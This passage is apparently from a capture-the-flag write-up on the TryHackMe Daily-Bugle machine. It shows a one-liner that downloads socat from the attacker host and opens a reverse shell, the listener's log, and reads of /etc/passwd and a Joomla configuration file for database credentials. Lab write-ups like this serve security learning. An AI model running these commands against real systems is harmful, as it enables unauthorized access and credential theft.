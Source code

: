 ```
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:f6:d8:0b:49:2f brd ff:ff:ff:ff:ff:ff
    inet 10.10.47.144/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3540sec preferred_lft 3540sec
    inet6 fe80::f6:d8ff:fe0b:492f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `apache`!

**Stable shell via `socat`:**
```
bash-4.2$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/10/18 10:18:23 socat[50374] N opening character device "/dev/pts/2" for reading and writing
2022/10/18 10:18:23 socat[50374] N listening on AF=2 0.0.0.0:4444
                                                                 2022/10/18 10:18:26 socat[50374] N accepting connection from AF=2 10.10.47.144:59328 on AF=2 10.9.0.253:4444
                                                                  2022/10/18 10:18:26 socat[50374] N starting data transfer loop with FDs [5,5] and [7,7]
                                              bash-4.2$ 
bash-4.2$ stty rows 22 columns 107
bash-4.2$ export TERM=xterm-256color
bash-4.2$ ^C
bash-4.2$ 
```

## Privilege Escalation

### apache to jjameson

```
bash-4.2$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
```

- Found 1 user: `jjameson`

**In `/var/www/html/configuration.php `, I found a hardcoded MySQL credentials:**
```
bash-4.2$ cat /var/www/html/configuration.php 
[...]
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = '{Redacted}';
[...]
```
